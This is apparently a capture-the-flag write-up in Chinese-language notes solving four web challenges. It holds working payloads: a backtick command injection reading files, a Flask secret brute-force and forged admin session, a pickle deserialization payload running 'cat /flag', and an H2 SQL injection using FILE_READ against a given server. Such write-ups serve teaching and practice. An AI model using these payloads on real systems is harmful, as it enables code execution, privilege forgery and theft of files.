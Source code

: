 # What the cow say?
	- ```shell
	  moo `nl /f*/*`
	  ```
- # myflask
	- 首先造一个字典用 [[CTF/Flask-Unsign]] 爆破出密钥`003649`
		- ```python
		  with open("wordlist.txt", "w") as f:
		      for i, j in ((i, j) for i in range(0, 60) for j in range(0, 60)):
		          f.write("00" + str(i).zfill(2) + str(j).zfill(2) + "\n")
		  ```
	- 然后伪造session
		- ```shell
		  flask-unsign -s --secret 003649 -c "{'username': 'admin'}"
		  ```
	- 最后直接pickle反序列化，payload:
		- ```python
		  b"(T*\x00\x00\x00__import__('os').popen('cat /flag').read()ibuiltins\neval\n."
		  ```
		- ```python
		  base_request.reset_session()
		  r = base_post(url + "flag", cookies = {"session": session}, data = {
		      "pickle_data": encoder.base64_encode(opcode)
		  })
		  print(r.text)
		  ```
- # Select More Courses
	- 爆破出密码`qwert123`，然后多线程爆破请求扩学分接口，最后选课即可
- # search4member
  id:: 65c31b16-c2a3-4355-a8b6-1baca2e5e778
	- 查看源码可知SQL引擎是h2 database
	- 直接读文件即可
		- ```python
		  url = "http://106.14.57.14:31536"
		  
		  r = base_post(url, params = {
		      "keyword": "web%' union select '1', FILE_READ('/flag', NULL),'3' --"
		  })
		  bs = BeautifulSoup(r.text, "html.parser")
		  print(bs.select("ul"))
		  ```